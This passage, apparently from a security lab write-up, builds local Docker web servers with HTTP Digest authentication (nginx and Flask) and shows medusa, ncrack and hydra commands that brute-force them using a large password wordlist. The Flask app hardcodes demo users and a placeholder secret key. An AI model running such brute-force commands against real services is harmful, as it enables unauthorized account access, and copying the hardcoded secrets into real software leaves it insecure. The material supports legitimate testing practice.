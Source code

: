 Then run:

<pre><code class="bash">sudo docker build -f Dockerfile.http_digest_nginx -t http_digest .
sudo docker run -ti -p 127.0.0.1:8888:80 http_digest
</code></pre>

Afterwards you can attack the server as follows:

<pre><code class="bash">medusa -h 127.0.0.1 -n 8888 -P path_to/SecLists/Passwords/xato-net-10-million-passwords-1000000.txt -u test -M http -m AUTH:DIGEST
ncrack -u test -P path_to/SecLists/Passwords/xato-net-10-million-passwords-1000000.txt http://127.0.0.1:8888 -f
hydra -l 'test' -P path_to/SecLists/Passwords/xato-net-10-million-passwords-1000000.txt 127.0.0.1 -s 8888 http-get / 
</code></pre>

### Flask

To anticipate: hydra cannot brute force Flask using their [default documentation](https://flask-httpauth.readthedocs.io/en/latest/).

You can verify this using:

<pre><code class="bash">cat Dockerfile.http_digest_flask
FROM ubuntu:20.10

LABEL maintainer="secf00tprint@gmail.com"

RUN apt-get update -y && \
apt-get install -y python3-pip python3-dev
# We copy just the requirements.txt first to leverage Docker cache
COPY ./requirements.txt /app/requirements.txt
WORKDIR /app
RUN pip3 install -r requirements.txt
COPY ./app.py /app/

CMD ["flask", "run", "--host=0.0.0.0"]
</code></pre>

<pre><code class="bash">cat requirements.txt
Flask==2.0.2
Flask-HTTPAuth==4.5.0
</code></pre>

<pre><code class="bash">cat app.py
from flask import Flask
from flask_httpauth import HTTPDigestAuth

app = Flask(__name__)
app.secret_key = 'super secret key'
auth = HTTPDigestAuth()

users = {
"test" : "password",
"john" : "hello",
"susan" : "bye"
}
